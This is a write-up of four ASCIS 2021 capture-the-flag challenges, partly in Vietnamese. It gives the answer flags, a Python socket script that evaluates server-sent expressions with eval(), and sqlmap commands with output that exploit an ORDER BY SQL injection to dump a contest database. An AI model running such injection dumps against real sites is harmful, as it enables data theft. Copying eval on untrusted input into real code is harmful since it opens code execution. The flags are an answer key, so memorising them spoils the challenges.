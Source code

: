 # ASEAN STUDENT CONTEST ON INFORMATION SECURITY 2021

### Overview
 | Title | Category | Points | Flag
 | ------ | ------ | ------ | ------ |
 | [Simple For](#Simple-For) | Misc | 100 | `ASCIS{n3tw0rk_f0r3ns1c_1s_n0t_h4rd}` |
 | [Calculate me](#Calculate-me) | Misc | 100 | `ASCIS{3v3ry0n3_sh0uld_kn0w_pr0gramm1ng}` |
 | [CALL ME MAYBE](#CALL-ME-MAYBE | Crypto | 100 | `FLAG{SMS AND DMTF}` |
 | [Hitech Shop](#Hitech-Shop | Web | 100 | `ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY}` |
 
# Simple For
 
### Challenge
 
<img src=files/185903.png>
 
[capture.pcap](files/capture.pcap)
 
### Solution

<img src=files/191647.png>

Follow TCP Stream

<img src=files/191756.png>

# Calculate me
 
### Challenge
 
<img src=files/192446.png>
 
### Solution

Dùng netcat truy cập ta nhận được như sau. (timeout là 5s)

<img src=files/192943.png>

Viết chương trình socket giao tiếp với server.

```python
# !/usr/bin/python
import socket

def receive_one_line(s):
    r = b''

    # Lần lượt nhận từng ký tự, nếu là ký tự xuống dòng thì ngưng
    while (True):
        t = s.recv(1)
        if t == b'\n': break
        r = r + t

    # Trả về kết quả dạng string
    return r.decode()

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(('125.235.240.166',20103))

data = receive_one_line(s)
print(data)
data = receive_one_line(s)
print(data)
while True:
    data = receive_one_line(s)
    print(data)

    str = int(eval(data[:data.find('=')]))
    print(str)

    s.sendall(f"{str}\n".encode())

    data = receive_one_line(s)
    print(data)
    data = receive_one_line(s)
    print(data)
```

Kết quả ta lấy được cờ.

<img src=files/193213.png>

# Simple For

### Challenge

<img src=files/193838.png>

### Solution

DTMF Code

<img src=files/194556.png>

Phone (SMS)

<img src=files/194643.png>

Cipher.txt > [DTMF Code](https://www.dcode.fr/dtmf-code) > 777767777026630368333 > [Multi-tap Phone (SMS)](https://www.dcode.fr/multitap-abc-cipher) > SMS AND DMTF

# Hitech Shop

### Challenge

<img src=files/195002.png>

### Solution

Fuz thử với dấu `'` ta không thấy display ra lỗi. Vậy guess là web server sử dụng hàm set_error_handler để catch lỗi.

<img src=files/195305.png>

Dùng sqlmap để exploit

```
# sqlmap -u "http://125.235.240.166:20105/index?order=name" --dbs                  
...
available databases [2]:
[*] information_schema
[*] vannd
...
# sqlmap -u "http://125.235.240.166:20105/index?order=name" -D vannd --tables      
...
Database: vannd
[2 tables]
+----------+
| flag     |
| products |
+----------+
...
# sqlmap -u "http://125.235.240.166:20105/index?order=name" -D vannd -T flag --dump
Database: vannd
Table: flag
[1 entry]
+---------------------------------------+
| secret                                |
+---------------------------------------+
| ASCIS{SQL_1nJecTi0n_Ba5e_0N_OrdeR_bY} |
+---------------------------------------+
...
```

















